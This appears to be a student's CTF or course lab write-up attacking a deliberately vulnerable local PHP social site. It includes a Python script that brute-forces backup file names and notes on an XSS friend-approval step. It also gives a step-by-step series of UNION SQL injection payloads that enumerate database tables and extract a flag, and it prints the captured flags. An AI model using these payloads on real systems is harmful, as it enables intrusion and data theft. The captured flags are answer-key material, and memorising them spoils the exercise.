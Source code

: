 # Task 2

## Setup

```bash
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2]
└──╼ $bash connect.sh 
Master running (pid=37031)
Allocated server port: 16653
Web server starting... please be patient! You can press Ctrl+C to stop it.
Initialization succeeded! Starting services...
2021-04-29 10:09:29,884 INFO Set uid to user 0 succeeded
2021-04-29 10:09:29,889 INFO RPC interface 'supervisor' initialized
2021-04-29 10:09:29,890 INFO supervisord started with pid 1
2021-04-29 10:09:30,892 INFO spawned: 'friends-daemon' with pid 25
2021-04-29 10:09:30,895 INFO spawned: 'nginx' with pid 26
2021-04-29 10:09:30,904 INFO spawned: 'php-fpm7' with pid 27
2021-04-29 10:09:31,968 INFO success: friends-daemon entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 10:09:31,969 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 10:09:31,969 INFO success: php-fpm7 entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
```

![[Pasted image 20210429131020.png]]


## Register Account

![[Pasted image 20210429131209.png]]

![[Pasted image 20210429131532.png]]

![[Pasted image 20210429131607.png]]

![[Pasted image 20210429131627.png]]

![[Pasted image 20210429131718.png]]

![[Pasted image 20210429131746.png]]

### Flag
**SpeishFlag{pY2WfWcLu3xeC2vW3kjxUq3LPvqjQdnG}**


## Friend Approval

![[Pasted image 20210429131921.png]]

![[Pasted image 20210429141049.png]]

![[Pasted image 20210429134424.png]]

![[Pasted image 20210429141204.png]]

![[Pasted image 20210429141226.png]]

```bash
└──╼ $bash connect.sh 
Master running (pid=72123)
Allocated server port: 17252
Web server starting... please be patient! You can press Ctrl+C to stop it.
Initialization succeeded! Starting services...
2021-04-29 11:10:33,252 INFO Set uid to user 0 succeeded
2021-04-29 11:10:33,257 INFO RPC interface 'supervisor' initialized
2021-04-29 11:10:33,258 INFO supervisord started with pid 1
2021-04-29 11:10:34,261 INFO spawned: 'friends-daemon' with pid 25
2021-04-29 11:10:34,264 INFO spawned: 'nginx' with pid 26
2021-04-29 11:10:34,267 INFO spawned: 'php-fpm7' with pid 27
2021-04-29 11:10:35,340 INFO success: friends-daemon entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 11:10:35,341 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 11:10:35,343 INFO success: php-fpm7 entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
XSS simulator: saw <script> in post!
XSS simulator: caught acceptFriend(8) call
XSS simulator: friend(s) accepted!
```

![[Pasted image 20210429141306.png]]


### Flag

**SpeishFlag{6x09h1dO6frbS6zi4Jt3savPZ2IIJfji}**



## Website backup

![[Pasted image 20210429145329.png]]

```python
import requests


URL = "http://localhost:8080/backup-YYYY-MM-DD.tar.gz"
cookie = {"PHPSESSID": "3is2vgj7sfcrod60lev39e2fhu"}


def send_request(i, j, k):
	url = URL
	url = url.replace("YYYY", i).replace("MM", j).replace("DD", k)
	r = requests.get(url=url, cookies=cookie)

	#print(url)
	if r.status_code != 404:
		print(f"[+] Found backup file: {i}, {j}, {k}")
		exit(0)


for i in range(2021, 0, -1):
	print(f"[!] Searching year {str(i)}")
	for j in range(12, 0, -1):
		for k in range(31, 0, -1):

			send_request(str(i), str(j), str(k))
			send_request(str(i), str(j).zfill(2), str(k))
			send_request(str(i), str(j).zfill(2), str(k).zfill(2))
			send_request(str(i), str(j), str(k).zfill(2))
```

```bash
┌─[✗]─[kayn@parrot]─[~/Documents/ISC/tema2/task2]                                                                  
└──╼ $clear ; python brute.py                                                                                      
[!] Searching year 2021                                                                                            
[+] Found backup file: 2021, 04, 6
```

```bash
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $binwalk -e backup-2021-04-6.tar.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)
3677650       0x381DD2        gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)

┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $ls
backup-2021-04-6.tar.gz  _backup-2021-04-6.tar.gz.extracted  brute.py
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $cd _backup-2021-04-6.tar.gz.extracted/
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web/_backup-2021-04-6.tar.gz.extracted]
└──╼ $ls
0  0.gz  381DD2  381DD2.gz
```

![[Pasted image 20210429152502.png]]

### Flag

**SpeishFlag{kdI8QCUxi24I9Y4esLMyY6jK1cGE8R99}**


## SQL Backdoor

```php
	public function login()
	{
		if (!empty($_POST)) {
			if (empty($_POST["catname"]) || empty($_POST["password"]) || empty($_POST["agreement"])) {
				error_log("Invalid POST parameters: " . var_export($_POST, true));
				$this->Redirect("/?err=login");return;
			}
			$stmt = $this->db->Query("SELECT * FROM `accounts` WHERE username = ? AND password = SHA(?)",
				array($_POST["catname"], $_POST["password"]));
			$account = $stmt->fetch();
			if (!$account) {
				error_log("Invalid credentials: " . var_export($_POST, true));
				$this->Redirect("/?err=login");return;
			}
			$_SESSION["auth"] = $account;
		}
		$this->Redirect("/");
	}
```

![[Pasted image 20210429153633.png]]

![[Pasted image 20210429153658.png]]

![[Pasted image 20210429154116.png]]

Payload: **test' UNION SELECT 1,2,3,4,5,6,7,8 -- -**

![[Pasted image 20210429154139.png]]

Payload: **'UNION SELECT 1,2,@@version,4,5,database(),7,8-- -**

![[Pasted image 20210429154635.png]]

![[Pasted image 20210429202754.png]]

![[Pasted image 20210429203635.png]]

![[Pasted image 20210429203619.png]]

Payload: **'UNION SELECT 1,2,3,4,5,table_name,7,8 FROM information_schema.tables WHEREtable_schema='web_4904' LIMIT 0,1-- -**

![[Pasted image 20210429204113.png]]

Payload: **'UNION SELECT 1,2,3,4,5,table_name,7,8 FROM information_schema.tables WHERE table_schema='web_4904' LIMIT 1,1-- -**

![[Pasted image 20210429204134.png]]

Payload: **'UNION SELECT 1,2,3,4,5,column_name,7,8 FROM information_schema.columns WHERE table_schema='web_4904' and table_name='flags38364' LIMIT 0,1-- -**

![[Pasted image 20210429204423.png]]

Payload: **'UNION SELECT 1,2,3,4,5,column_name,7,8 FROM information_schema.columns WHERE table_schema='web_4904' and table_name='flags38364' LIMIT 1,1-- -**

![[Pasted image 20210429204356.png]]

Payload: **'UNION SELECT 1,2,id,4,5,zaflag,7,8 FROM flags38364 LIMIT 0,1-- -**

![[Pasted image 20210429204623.png]]

### Flag

**SpeishFlag{0xiTyXDGEbDJafiQZArBNprEWKCQnwwK}**


## File Upload

![[Pasted image 20210429215036.png]]

![[Pasted image 20210429222630.png]]

![[Pasted image 20210429222649.png]]
